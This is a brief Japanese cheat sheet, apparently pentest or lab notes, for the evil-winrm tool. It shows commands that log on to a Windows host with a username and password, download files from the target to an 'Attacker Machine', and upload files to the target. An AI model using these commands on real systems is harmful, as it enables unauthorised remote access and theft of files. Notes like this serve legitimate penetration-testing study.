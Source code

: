 # evil-winrm
[Documentation](https://github.com/Hackplayers/evil-winrm)

## コマンド集
1. 192.のIPにdaveadminユーザでhogeというパスワードを使用してログオンする
```
evil-winrm -i 192.168.50.220 -u daveadmin -p "hoge"
```

2. リモートセッション上で、ファイルをAttacker Machineにダウンロードする。
```
download ./hoge.txt
```

3. リモートセッション上で、Attacker Machine上のファイルをターゲットのパスにアップロードする。
```
upload <path to upload file in attackermachine>
```